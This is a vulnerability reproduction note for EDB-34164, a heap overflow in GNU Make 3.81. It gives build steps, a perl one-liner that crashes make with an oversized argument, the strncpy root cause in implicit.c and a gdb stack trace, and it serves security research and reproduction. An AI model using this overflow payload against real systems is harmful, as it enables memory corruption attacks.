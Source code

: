 # EDB-34164

## Experiment Environment

Debian Jessie

[Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

## INSTALL & Configuration

```
wget http://ftp.gnu.org/gnu/make/make-3.81.tar.gz;
tar -xvf make-3.81.tar.gz;
cd make-3.81/;
./configure;
make;
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
./make `perl -e 'print "A" x 4000 . "B"x96 . "\xef\xbe\xad\xde"x4'`
```

## PoCs

[Make 3.81 - Heap Overflow (PoC)](https://www.exploit-db.com/exploits/34164/)

## Vulnerability Details & Patch

### Root Cause

```
implicit.c:478

          strncpy (stem_str, stem, stemlen);

```

### Stack Trace

```
(gdb) info stack
#0  pattern_search (file=0x7fffffffa040, file@entry=0x7fffff006300, 
    archive=archive@entry=0, depth=depth@entry=2, 
    recursions=recursions@entry=1) at implicit.c:752
#1  0x000000000040cedd in pattern_search (file=0x631cf0, 
    file@entry=0xdeadbeefdeadbeef, archive=archive@entry=0, 
    depth=depth@entry=1, recursions=recursions@entry=0) at implicit.c:735
#2  0x000000000040d5b0 in try_implicit_rule (file=0xdeadbeefdeadbeef, 
    file@entry=0x631cf0, depth=depth@entry=1) at implicit.c:48
#3  0x0000000000418306 in update_file_1 (depth=1, file=0x631cf0)
    at remake.c:453
#4  update_file (file=file@entry=0x631cf0, depth=<optimized out>)
    at remake.c:307
#5  0x0000000000418c66 in update_goal_chain (goals=0x66c920)
    at remake.c:154
#6  0x000000000040389f in main (argc=<optimized out>, 
    argv=0x7fffffffdd18, envp=<optimized out>) at main.c:2198
```

## References

[1] [make-3.81](http://ftp.gnu.org/gnu/make/make-3.81.tar.gz)
